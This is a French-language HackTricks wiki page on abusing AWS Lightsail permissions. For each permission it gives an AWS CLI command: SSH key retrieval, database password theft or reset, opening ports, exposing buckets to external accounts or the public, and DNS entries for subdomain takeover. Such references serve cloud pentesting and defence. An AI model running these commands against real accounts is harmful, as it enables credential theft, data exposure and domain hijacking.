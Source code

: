 # AWS - Privilège d'escalade de Lightsail

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Lightsail

Pour plus d'informations sur Lightsail, consultez :

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Il est important de noter que Lightsail **n'utilise pas les rôles IAM appartenant à l'utilisateur** mais à un compte géré par AWS, vous ne pouvez donc pas abuser de ce service pour l'escalade de privilèges. Cependant, des **données sensibles** telles que du code, des clés API et des informations de base de données peuvent être trouvées dans ce service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Cette autorisation vous permettra d'obtenir les clés SSH pour accéder aux instances :

```
aws lightsail download-default-key-pair
```

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:GetInstanceAccessDetails`

Cette autorisation vous permettra de générer des clés SSH pour accéder aux instances :

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:CreateBucketAccessKey`

Cette autorisation vous permettra d'obtenir une clé pour accéder au bucket :

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Impact potentiel :** Trouver des informations sensibles à l'intérieur du bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Cette autorisation vous permettra d'obtenir les informations d'identification pour accéder à la base de données :

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Impact potentiel :** Trouver des informations sensibles à l'intérieur de la base de données.

### `lightsail:UpdateRelationalDatabase`

Cette autorisation vous permettra de changer le mot de passe pour accéder à la base de données :

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Si la base de données n'est pas publique, vous pouvez également la rendre publique avec ces autorisations :

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur de la base de données.

### `lightsail:OpenInstancePublicPorts`

Cette autorisation permet d'ouvrir des ports à Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Impact potentiel :** Accéder à des ports sensibles.

### `lightsail:PutInstancePublicPorts`

Cette autorisation permet d'ouvrir des ports à Internet. Notez que l'appel fermera tout port ouvert non spécifié.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Impact potentiel :** Accéder à des ports sensibles.

### `lightsail:SetResourceAccessForBucket`

Ces autorisations permettent de donner à une instance un accès à un bucket sans aucune autre identification

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```
{% endcode %}

**Impact potentiel :** Nouvel accès potentiel aux buckets contenant des informations sensibles.

### `lightsail:UpdateBucket`

Avec cette autorisation, un attaquant pourrait accorder à son propre compte AWS un accès en lecture sur des buckets ou même rendre les buckets publics pour tout le monde :

```bash
# Accorder un accès en lecture à un compte externe
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Accorder la lecture au public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket privé mais des objets uniques peuvent être publics
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Impact potentiel :** Nouvel accès potentiel aux buckets contenant des informations sensibles.

### `lightsail:UpdateContainerService`

Avec ces autorisations, un attaquant pourrait accorder l'accès à des ECR privés depuis le service de conteneurs

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Impact potentiel :** Obtenir des informations sensibles à partir d'ECR privés

### `lightsail:CreateDomainEntry`

Un attaquant avec cette autorisation pourrait créer un sous-domaine et le pointer vers sa propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF qui lui permet de falsifier des e-mails provenant du domaine, ou même définir le domaine principal sur sa propre adresse IP.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Impact potentiel :** Prendre le contrôle d'un domaine

### `lightsail:UpdateDomainEntry`

Un attaquant avec cette autorisation pourrait créer un sous-domaine et le pointer vers sa propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF qui lui permet de falsifier des e-mails provenant du domaine, ou même définir le domaine principal sur sa propre adresse IP.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Impact potentiel :** Prendre le contrôle d'un domaine

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>